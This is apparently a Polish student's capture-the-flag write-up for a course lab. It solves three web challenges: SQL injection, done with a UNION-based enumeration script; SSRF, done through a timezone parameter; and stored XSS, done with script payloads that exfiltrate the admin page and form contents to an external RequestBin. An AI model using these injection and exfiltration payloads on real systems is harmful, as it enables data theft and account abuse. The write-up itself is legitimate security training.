 # BSK* - zad. 1 (aplikacje webowe)

## 1. SQL Injection 
*FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7fc9f3b5bc9c065b3e6fdc4f4}*

Na podstronie `/stats/` to, co poda się dalej w adresie zostanie użyte jako parametr `X` w zapytaniu SQL postaci:
```
SELECT ... FROM ...
WHERE ...
AND year=X
ORDER BY ...
```
Wynik zapytania jest wstawiany do HTML-owej tabelki.
Gdy za `X` podstawi się `0 OR 0=1 UNION SELECT ...`, można dowiedzieć się ciekawych rzeczy.
Napisałem następujący skrypt, który listuje wszystkie nazwy tabel z bazy danych, zmieniając wartość `OFFSET` w zapytaniu.
```
#!/bin/bash

url="http://web.kazet.cc:31339/stats/0"
sql="OR 0=1 UNION SELECT table_name, 1 FROM information_schema.tables"

for i in {1..500}
do
    foo="$(wget -q -O - "${url} ${sql} OFFSET $i--" \
        | grep -A1 -m 1 "<td>1</td>" \
        | grep -v "<td>1</td>")"
    echo ${foo} | cut -c 5- | rev | cut -c 6- | rev
done
```
W ten sposób znalazłem tabelę o nazwie `interesting_and_secret_information`.
Następnie podobną metodą znalazłem nazwę kolumny w tej tabeli - `secret_text_for_example_a_flag`.
Wtedy już wystarczyło wyszukać 
```
http://web.kazet.cc:31339/stats/0 OR 0=1 UNION SELECT secret_text_for_example_a_flag, 1 FROM interesting_and_secret_information--
```
W tabelce na stronie wyświetlało się tylko kilkadziesiąt pierwszych znaków, dlatego żeby zdobyć końcówkę, zamieniłem `secret_text_for_example_a_flag` na `RIGHT(secret_text_for_example_a_flag, 50)`.

## 2. SSRF
*FLAG{0c55606a072a912d264846cd22c95020e781}*

Z kodu HTML strony dowiedziałem się, że przy jej ładowaniu wykonywany jest javascript, znajdujący się w `/static/script.js`. Funkcja getTime wysyła żądanie POST do podstrony `/time` z drugim argumentem tej funkcji jako parametrem body.
Przy pomocy Burpa przechwyciłem takie żądanie i zmieniłem wartość zmiennej `"timezone"` na `"london"`. Otrzymałem odpowiedź `nie udało się pobrać http://london.timezone.internal`. To znaczy, że dla `"timezone":"X"` pobierane są dane z wewnętrznego serwisu `http://X.timezone.internal`.
Gdy za `X` podstawiłem `127.0.0.0/?foo=`, z localhosta została pobrana flaga.

## 3. XSS
*FLAG{752e8db03d875cfec6bdf8305756f1bb}*

Zalogowałem się i przez podstronę `/send_article` wysyłałem dowolny tekst. Przechwyciłem żądanie POST i zmieniłem wartość parametru `"article"` na taki skrypt:
```
<script>
    fetch("[adres mojego RequestBina]", {
        method: "POST",
        body: document.body.innerHTML
    }); 
</script>
```
Skrypt został wklejony w kod strony, którą odczytał administrator. Skrypt się wykonał i na RequestBina został wysłany HTML strony administratora. Znajduje się tam link do podstrony `/send_feedback`.
Gdy zamiast `document.body.innerHTML` wstawiłem `document.URL`, otrzymałem w odpowiedzi adres `http://zad38-2022-final:5000`.
Wysyłałem kolejne spreparowane żądanie z następującym skryptem:
```
<script>
    fetch("http://zad38-2022-final:5000/send_feedback").then((response) => {
        return response.text();
    }).then(async (rt) => {
        await fetch("[adres mojego RequestBina]", {
            method: "POST",
            body: rt
        });
    }); 
</script>
```
Otrzymałem kod HTML podstrony `/send_feedback`. Dowiedziałem się z niego, że formularz do przesyłania odpowiedzi składa się z pól tekstowych `receiver` i `content` oraz checkboxa `debug`. Wysyłałem ostatnie żądanie, zmuszając stronę administratora do wysłania mi informacji zwrotnej, zawierającej flagę. Żeby wszystko działało poprawnie musiałem jeszcze zmienić znaki '&' na '%26'.
```
<script>
    fetch("http://zad38-2022-final:5000/send_feedback", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "receiver=[mój nick]%26content=foo%26debug=on"
    }); 
</script>
```
